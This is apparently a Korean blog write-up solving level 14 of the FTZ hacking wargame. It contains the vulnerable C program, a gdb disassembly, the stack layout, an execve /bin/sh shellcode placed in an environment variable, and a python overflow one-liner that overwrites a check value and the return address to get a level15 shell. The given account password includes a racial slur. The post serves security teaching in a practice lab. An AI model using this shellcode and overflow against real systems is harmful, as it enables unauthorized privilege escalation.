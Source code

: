 ```yaml
---
title: "[FTZ] level14 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level14 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level14 풀이
{: .notice--warning}


# 문제

계정 : level14/what that nigga want?

**hint**
```c
레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이
최고의 효과를 가져다줍니다.

#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}


```

# 풀이

13번과 동일하게, ret 주소를 덮는 과정에서 check 변수와 crap 변수도 덮어 쓰여 집니다. 이때, check 변수를 검증하고 있으므로, check 변수 값을 주의하여 덮어쓰면 됩니다.

먼저 메모리 구조를 분석합니다.

```sh
[level14@ftz level14]$ gdb -q attackme
(gdb) set disass intel
(gdb) disass main
Dump of assembler code for function main:
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38
0x08048496 <main+6>:    sub    esp,0x4
0x08048499 <main+9>:    push   ds:0x8049664
0x0804849f <main+15>:   push   0x2d
0x080484a1 <main+17>:   lea    eax,[ebp-56]   //ebp-56 위치에 buf 존재
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   cmp    DWORD PTR [ebp-16],0xdeadbeef //ebp-16 위치에 check 존재
0x080484b4 <main+36>:   jne    0x80484db <main+75>
0x080484b6 <main+38>:   sub    esp,0x8
0x080484b9 <main+41>:   push   0xc17
0x080484be <main+46>:   push   0xc17
0x080484c3 <main+51>:   call   0x8048380 <setreuid>
0x080484c8 <main+56>:   add    esp,0x10
0x080484cb <main+59>:   sub    esp,0xc
0x080484ce <main+62>:   push   0x8048548
0x080484d3 <main+67>:   call   0x8048340 <system>
0x080484d8 <main+72>:   add    esp,0x10
0x080484db <main+75>:   leave
0x080484dc <main+76>:   ret
0x080484dd <main+77>:   lea    esi,[esi]

```

메모리 구조는 다음과 같이 되어 있습니다.

```s
ret(4)
ebp(4)
dummy + crap (12)
check(4)  // ebp-16
dummy(20) // buf와 check 주소 차이 만큼
buf(20)   // ebp-56
```

환경변수에 쉘코드를 등록하고, 환경변수의 주소를 알아냅니다.

```sh
[level14@ftz tmp]$ export SHELLCODE=$(python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
[level14@ftz tmp]$ echo 'int main(){printf("%p\n",getenv("SHELLCODE"));}' >> env.c
[level14@ftz tmp]$ gcc -o env env.c
[level14@ftz tmp]$ ./env
0xbffffc6d
```

프로그램을 실행하여 ret 주소를 덮어 씁니다.

1. buf + dummy 40 바이트
2. check -> 0xdeadbeef
3. dummy + crap + ebp 16 바이트
4. 0xbffffc6d 로 리턴 주소 변경

```sh
[level14@ftz level14]$ (python -c'print("A"*40+"\xef\xbe\xad\xde"+"A"*16+"\x6d\xfc\xff\xbf")';cat) | ./attackme

id
uid=3095(level15) gid=3094(level14) groups=3094(level14)

my-pass
Level15 Password is "guess what".
```